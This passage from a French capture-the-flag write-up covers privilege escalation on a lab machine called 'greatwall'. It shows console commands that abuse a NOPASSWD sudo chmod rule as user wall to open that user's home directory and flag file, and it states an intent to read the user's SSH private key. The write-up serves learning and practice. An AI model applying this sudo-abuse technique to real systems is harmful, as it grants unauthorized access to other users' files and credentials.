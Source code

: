 ### Give it to me

L'utilisateur courant a une permission pour exécuter `chmod` avec les droits de `wall` :

```console
www-data@greatwall:/tmp$ sudo -l
Matching Defaults entries for www-data on greatwall:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on greatwall:
    (wall) NOPASSWD: /bin/chmod
```

Je vais utiliser cette permission pour lire le flag et la clé privée SSH de l'utilisateur :

```console
www-data@greatwall:/tmp$ sudo -u wall chmod 755 /home/wall/
www-data@greatwall:/tmp$ cd /home/wall/                    
www-data@greatwall:/home/wall$ ls
user.flag
www-data@greatwall:/home/wall$ cat user.flag 
cat: user.flag: Permission denied
www-data@greatwall:/home/wall$ sudo -u wall chmod 644 user.flag  
www-data@greatwall:/home/wall$ cat user.flag 
                                                          .'.      
                                                      .':ldd.      
                                                  .,:oddddd:       
                                              .,cdddddddddd        
                                          .,cddddddddddddd:        
                                      .;lddddddddddddddddd.        
                                  .;lddddddddddddddddddddl         
                              .,cddddddddddddccoddddddddd.         
                          .;cdddddddddddddl,.:ddddddddddc          
                     .';lddddddddddddddo;. ,dddddddddddd.          
                 .':lddddddddddddddddc.  'oddddddddddddc           
             .':odddddddddddddddddl,   .cdddddddddddddd.           
         .':oddddddddddddddddddd:.    ;dddddddddddddddo            
      ';lddddddddddddddddddddl,     'odddddddddddddddd'            
       ..,:lodddddddddddddo;.     .cdddddddddddddddddl             
             ..';codddddc.      .:ddddddddddddddddddd.             
                    ..'        ,ddddddddddddddddddddc              
                              ;ldddddddddddddddddddd.              
                                 ..';clddddddddddddc               
                                        ..,:loddddd.               
                             .c:,..           ..',:                
                             'ddddd'                               
                             'dddl.                                
                             ,dd,                                  
                             ;o.                                   
                             .                                     

flag{b088764475fa2a0a962fb9154f41c5b6}
www-data@greatwall:/home/wall$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .local  .profile  .ssh  user.flag
www-data@greatwall:/home/wall$ ls -al
total 32
drwxr-xr-x 4 wall wall 4096 May 11 02:41 .
drwxr-xr-x 3 root root 4096 May 10 18:54 ..
lrwxrwxrwx 1 root root    9 May 11 00:15 .bash_history -> /dev/null
-rwx------ 1 wall wall  220 May 10 18:54 .bash_logout
-rwx------ 1 wall wall 3526 May 10 18:54 .bashrc
drwx------ 3 wall wall 4096 May 11 00:18 .local
-rwx------ 1 wall wall  807 May 10 18:54 .profile
```